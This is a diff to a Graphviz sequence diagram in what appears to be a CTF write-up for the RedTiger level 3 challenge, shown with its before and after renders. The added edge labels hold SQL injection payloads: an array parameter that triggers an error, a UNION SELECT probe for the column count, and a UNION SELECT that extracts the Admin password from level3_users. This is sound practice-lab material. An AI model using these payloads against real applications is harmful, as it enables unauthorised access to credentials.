

Before and after one commit to joizel/ctf_writeup: the diagram in docs/web/Blind SQL Injection/[redtiger] level3.rst, drawn with Graphviz. The commit also changed other lines of this file and 13 other files, not shown here.

```diff
--- a/docs/web/Blind SQL Injection/[redtiger] level3.rst
+++ b/docs/web/Blind SQL Injection/[redtiger] level3.rst
@@ -7,21 +7,25 @@
 .. graphviz::
 
     digraph G {
         rankdir="LR";
         node[shape="point"];
         edge[arrowhead="none"]
 
         {
             rank="same";
             "client"[shape="plaintext"];
-            "client" -> step0 -> step2 -> step4;
+            "client" -> step0 -> step2 -> step4 -> step6 -> step8 -> step10 -> step12;
         }
 
         {
             rank="same";
             "server"[shape="plaintext"];
-            "server" -> step1 -> step3 -> step5;
+            "server" -> step1 -> step3 -> step5 -> step7 -> step9 -> step11 -> step13;
         }
-        step0 -> step1[label="?usr[]=",arrowhead="normal"];
-        step3 -> step2[label="@solve",arrowhead="normal"];
+        step0 -> step1[label="post_data: {usr[]=}",arrowhead="normal"];
+        step3 -> step2[label="Error Page",arrowhead="normal"];
+        step4 -> step5[label="post_data: {usr=' union select %s from level3_users-- }",arrowhead="normal"];
+        step7 -> step6[label="Column Length",arrowhead="normal"];
+        step8 -> step9[label="post_data: {usr=' union select 1,2,3,username,password,6,7 from level3_users where username='Admin' -- }",arrowhead="normal"];
+        step11 -> step10[label="Data Extract",arrowhead="normal"];
     }
```
